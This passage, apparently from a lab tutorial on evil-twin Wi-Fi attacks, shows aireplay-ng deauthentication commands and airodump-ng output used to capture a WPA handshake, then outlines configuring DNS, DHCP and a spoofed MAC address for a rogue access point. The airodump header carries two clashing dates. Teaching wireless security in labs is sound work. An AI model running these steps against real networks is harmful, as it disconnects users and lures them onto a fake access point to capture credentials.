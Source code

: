 Now, we need to deauthenticate the connected client using aireplay-ng. This forces the client to disconnect from the legitimate access point, prompting it to reconnect. During this reconnection process, we can capture a valid WPA handshake, which is essential for validating the network credentials later.

```shell
aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 wlan0mon

11:51:19  Waiting for beacon frame (BSSID: D4:C1:8B:79:AD:45) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
11:51:19  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:20  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:20  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:21  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:21  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]

```

Once the clients are deauthenticated from the AP, we can continue observing `airodump-ng` to see when they reconnect.

```shell
airodump-ng wlan0mon -w HTB

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: D4:C1:8B:79:AD:45

 CH 10 ][ Elapsed: 6 s ][ 2024-11-27 11:55

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 D4:C1:8B:79:AD:45  -28        7        2    0   1   54   WPA2 TKIP   PSK  HTB-Corp

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 D4:C1:8B:79:AD:45  C2:CA:2A:79:D5:87  -29   54 -48      0        2

```

In the output above, we can see that after sending the deauthentication packet, the client disconnects and then reconnects. This is evidenced by the increase in Lost packets and Frames count. Additionally, a four-way handshake would be captured by airodump-ng, as shown in the output.

* * *

### 2\. Configure the routing

The next step is to configure routing by setting up the DNS and DHCP servers for the fake access point. These services will assign IP addresses to connected clients and handle their network requests, ensuring seamless connectivity that mimics the legitimate access point.

To configure the routing correctly, we need to follow these steps:

- `Set up DNS and DHCP for the fake network` : Configure DNS and DHCP services for the rogue access point, ensuring clients receive valid IP addresses and can resolve domain names.
- `Assign a valid IP address to the wireless interface` : Configure the wireless interface hosting the fake access point (e.g., wlan1) with a proper IP address to ensure proper routing.
- `Modify the MAC address of the wireless interface` : Change the MAC address of the wlan1 interface to closely resemble that of the target access point. This helps make the fake AP appear more legitimate to connected clients.
